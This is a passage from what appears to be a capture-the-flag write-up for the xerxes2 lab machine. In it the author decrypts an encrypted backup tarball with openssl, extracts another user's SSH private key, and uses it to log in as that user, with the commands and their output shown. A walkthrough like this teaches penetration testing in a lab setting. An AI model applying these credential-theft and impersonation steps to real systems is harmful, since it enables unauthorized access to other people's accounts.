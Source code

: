 ``` bash

```


That's more workable - but wait, what's that... a tarball encrypted into /opt/backup/ ?

![](http://1.bp.blogspot.com/_pS7sKjlzwFg/TOMG_De_jfI/AAAAAAAAGX4/XfN7NH07GiA/s320/quagmire_jackpot.gif)

OpenSSL can be used to decrypt the file to get the original tarball.


``` bash

polito@xerxes2:~$ openssl aes-256-cbc -d -salt -pass pass:c2hvZGFu -in /opt/backup/korenchkin.tar.enc -out /home/polito/korenchkin/korenchkin.tar
polito@xerxes2:~$ ls -l korenchkin/
total 12
-rw-r--r-- 1 polito polito 10240 Aug  8 12:05 korenchkin.tar
polito@xerxes2:~$ cd korenchkin/
polito@xerxes2:~/korenchkin$ tar xvf korenchkin.tar 
.ssh/id_rsa
.ssh/id_rsa.pub
polito@xerxes2:~/korenchkin$ 

```


Looks like Korenchkin is sensible and backs up his keypair... but now I have it, so user impersonation is possible.


``` bash

polito@xerxes2:~/korenchkin$ ssh -i .ssh/id_rsa korenchkin@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is c1:ca:ae:c3:5d:7a:5b:9d:cf:27:a4:48:83:1e:01:84.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.

Welcome to xerxes2.
      XERXES wishes you
       a pleasant stay.
____   ___  ____  ___  __ ____   ___  ____     ____     ____   
`MM(   )P' 6MMMMb `MM 6MM `MM(   )P' 6MMMMb   6MMMMb\  6MMMMb  
 `MM` ,P  6M'  `Mb MM69 "  `MM` ,P  6M'  `Mb MM'    ` MM'  `Mb 
  `MM,P   MM    MM MM'      `MM,P   MM    MM YM.           ,MM 
   `MM.   MMMMMMMM MM        `MM.   MMMMMMMM  YMMMMb      ,MM' 
   d`MM.  MM       MM        d`MM.  MM            `Mb   ,M'    
  d' `MM. YM    d9 MM       d' `MM. YM    d9 L    ,MM ,M'      
_d_  _)MM_ YMMMM9 _MM_    _d_  _)MM_ YMMMM9  MYMMMM9  MMMMMMMM 

You have new mail.
korenchkin@xerxes2:~$ id
uid=1000(korenchkin) gid=1000(korenchkin) groups=1000(korenchkin),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
korenchkin@xerxes2:~$ 

```
